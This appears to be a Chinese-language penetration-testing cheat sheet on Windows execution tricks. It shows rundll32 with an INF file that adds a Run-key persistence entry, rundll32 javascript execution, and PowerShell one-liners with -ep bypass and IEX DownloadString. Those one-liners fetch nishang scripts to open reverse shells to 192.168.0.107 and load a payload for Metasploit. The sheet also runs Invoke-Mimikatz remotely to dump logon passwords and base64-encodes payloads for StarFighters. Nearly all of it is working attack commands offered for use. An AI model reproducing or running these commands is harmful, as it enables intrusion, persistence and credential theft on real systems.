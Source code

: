 	保存为.inf文件
	>rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf
	[Version]
	Signature="$WINDOWS NT$"
	[DefaultInstall]
	AddReg=AddReg
	DelReg=DelReg
	[AddReg] #删除DelReg删掉红色部分执行
	HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,SYSTEM,0x00000000,c:/windows/temp/sv.exe
	0x00010001表示REG_DWORD数据类型，0x00000000或省略该项(保留逗号)表示REG_SZ(字符串)
 ##### 写文件
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";fso=new%20ActiveXObject("Scripting.FileSystemObject");a=fso.CreateTextFile("c:\\Temp\\testfile.txt",true);a.WriteLine("Test");a.Close();self.close();
 ##### Out-RundllCommand
	使用nishang脚本Out-RundllCommand生成rundll代码
	>powershell -nop -w h -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Execution/Out-RundllCommand.ps1'); Out-RundllCommand -Reverse -IPAddress 192.168.0.107 -Port 12345"
![image](/assets/Pentest_Note/master/img/135.png)
![image](/assets/Pentest_Note/master/img/136.png)

	注：低版本powershell，隐藏窗口只识别-w hidden，高版本可以-w h
	执行远程PS脚本
	>Out-RundllCommand -PayloadURL http://192.168.0.107/Invoke-PowerShellUdp.ps1 -Arguments "Invoke-PowerShellUdp -Reverse -IPAddress 192.168.0.107 -Port 12138"
	上线MSF
	生成psh-reflection格式脚本
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();r=new%20ActiveXObject("WScript.Shell").run("powershell -w hidden -nologo -noprofile -ep bypass IEX ((New-Object Net.WebClient).DownloadString('http://192.168.0.107/xx.ps1'));",0,true);
 #### DotNetToJScript
	通过js/vbs执行.net程序
	https://github.com/tyranid/DotNetToJScript/releases
	>DotNetToJScript.exe -o 1.js ExampleAssembly.dll 生成js
	>DotNetToJScript.exe -l vbscript -o 2.vbs ExampleAssembly.dll生成vbs
	>DotNetToJScript.exe -l vba -o 2.txt ExampleAssembly.dll 生成vba
	>DotNetToJScript.exe -u -o 3.sct ExampleAssembly.dll生成sct
 ##### StarFighters
	https://github.com/Cn33liz/StarFighters 可以执行powershell代码，详见
	执行单条命令
	$code = 'start calc.exe'
	$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
	$encoded = [System.Convert]::ToBase64String($bytes)
	$encoded
	复制为var EncodedPayload的值
	远程执行mimikatz
	powershell IEX "(New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'log privilege::debug sekurlsa::logonpasswords'"
	以上保存在code.txt
	$code = Get-Content -Path code.txt
	$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
	$encoded = [System.Convert]::ToBase64String($bytes)
	$encoded | Out-File 2.txt
![image](/assets/Pentest_Note/master/img/137.png)
